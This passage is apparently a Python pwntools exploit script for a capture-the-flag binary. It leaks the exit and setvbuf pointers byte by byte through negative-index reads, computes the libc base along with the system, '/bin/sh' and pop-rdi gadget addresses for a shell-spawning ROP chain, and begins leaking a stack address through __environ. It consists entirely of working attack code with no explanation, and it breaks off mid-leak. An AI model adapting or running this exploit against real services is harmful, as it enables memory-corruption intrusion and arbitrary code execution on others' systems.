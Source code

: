     exit_ptr += r.recv(1)
    exit_ptr += "\x00\x00"
    exit_ptr = u64(exit_ptr)
    log.info("Exit: " + hex(exit_ptr))
    r.sendline('-80')
    r.sendline('-1')
    setvbuf_ptr = r.recv(1)
    r.sendline('-79')
    r.sendline('-1')
    setvbuf_ptr += r.recv(1)
    r.sendline('-78')
    r.sendline('-1')
    setvbuf_ptr += r.recv(1)
    r.sendline('-77')
    r.sendline('-1')
    setvbuf_ptr += r.recv(1)
    r.sendline('-76')
    r.sendline('-1')
    setvbuf_ptr += r.recv(1)
    r.sendline('-75')
    r.sendline('-1')
    setvbuf_ptr += r.recv(1)
    setvbuf_ptr += "\x00\x00"
    setvbuf_ptr = u64(setvbuf_ptr)
    log.info("Setvbuf: " + hex(setvbuf_ptr))
    
    '''
    __environ 00000000003c14a0      local __environ 00000000003c5f98
    exit 000000000003c1e0           local exit 000000000003a020
    setvbuf 00000000000705a0        local setvbuf 000000000006fdb0
    system 0000000000046590         local system 0000000000045380
    offset_str_bin_sh = 0x17c8c3    local offset_str_bin_sh = 0x18c58b
    0x00001273: pop rdi ; ret

    '''
    main_module = program_ptr - 0x202040
    pop_rdi = main_module + 0x1273
    libc_base = exit_ptr - 0x3c1e0
    libc_system = libc_base + 0x46590
    libc_binsh = libc_base + 0x17c8c3
    __environ = libc_base + 0x3c14a0
    offset_y = (__environ - program_ptr) / 0x50
    offset_x = (__environ - program_ptr) % 0x50
    log.info("Libc base: " + hex(libc_base))
    log.info("Main base: " + hex(main_module))
    log.info("POP RDI  : " + hex(pop_rdi))
    log.info("__environ: " + hex(__environ))
    log.info("Offset_y : " + hex(offset_y))
    log.info("Offset_x : " + hex(offset_x))

    r.sendline(str(offset_x))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    stack = r.recv(1)
    r.sendline(str(offset_x+1))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    stack += r.recv(1)
    r.sendline(str(offset_x+2))
    r.sendline(str(offset_y / 0x1000))
    r.sendline(str(0x1000))
    r.sendline(str(offset_y % 0x1000))
    stack += r.recv(1)
